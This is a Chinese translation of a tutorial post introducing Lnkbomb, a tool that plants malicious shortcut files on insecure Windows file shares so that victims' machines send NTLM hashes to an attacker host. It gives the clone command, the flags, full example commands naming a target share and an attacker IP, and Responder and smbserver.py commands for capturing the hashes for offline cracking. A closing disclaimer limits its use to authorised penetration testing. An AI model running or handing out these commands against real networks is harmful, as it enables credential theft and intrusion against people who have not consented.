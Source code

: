 # Lnkbomb:从不安全的文件共享中收集 NTLM 散列的恶意快捷方式生成器

> 原文：<https://kalilinuxtutorials.com/lnkbomb/>

[![](img/0821b444336284f13779fb9475b919af.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjj57JohNsGGZnH5DG154rkoQbK2hmTi56CPYO5L64PeEYP3vTMihPpoNdTcJzCBUGYThadbIoxPUrC-VkYA0iEqvE9Jk2HdT-dQ7Tm1_g49NTGTPjmA2MkEBYI7qJZY7PAjK1WyFQUmktzgJ7XsGmlCxeIEASW68NufaR6DoA6i7KiTpqaoOmeCKdx/s728/example%20(1).png)

**Lnkbomb** 用于上传恶意快捷文件到不安全的文件共享。该漏洞是由于 Windows 查找与快捷方式文件相关联的图标文件造成的。此图标文件可被定向到运行 Responder 或 smb 服务器的渗透测试机，以收集 NTLMv1 或 NTLMv2 哈希(取决于受害主机的配置)。然后，测试人员可以尝试使用 Hashcat 之类的工具离线破解这些收集到的散列。

有效载荷文件直接上传到测试人员在命令行中指定的不安全文件中。测试者还包括他们的 IP 地址，它被写入有效载荷。

## Python 用法

安装 Lnkbomb

请注意，该项目在 Windows 中工作一致。它在 Linux 中可能有问题。

`**git clone https://github.com/dievus/lnkbomb.git**`

将目录更改为 lnkbomb 并运行:

`**python3 lnkbomb.py -h**`

这将输出帮助菜单，其中包含以下标志:

`**-h, --help - Lists the help options**`

`**-t, --target - Specifies the target file share (ex. -t \\192.168.1.1\Share)**`

`**-a, --attacker - Specifies the tester's attack machine (ex. -a 192.168.1.2)**`

`**-r, --recover - Used to remove the payload when testing is completed (ex. -r randomfilegenerated.recover)**`

完整命令的示例包括:

`**python3 lnkbomb.py -t \\192.168.1.1\**Share -a 192.168.1.2`

`**python3 lnkbomb.py -r randomfilegenerated.recover**`

您需要利用 Responder 或 smbserver 之类的工具来捕获 NTLM 散列。
`**responder -I eth0 -dwf -v**`

或者

`**smbserver.py . . -smb2support**`

![](img/839326e2892d3e9c65acc56d80f677fc.png)

## 可执行用法

从页面右侧的发布链接下载 Lnkbomb。除了使用 lnkbomb.py 而不是 python3 lnkbomb.py 之外，所有标志都与 Python 版本相同

### 注意事项

请记住，该工具仅用于道德黑客和渗透测试目的。我不容忍任何行为，包括测试您目前无权测试的目标。

[**Download**](https://github.com/dievus/lnkbomb)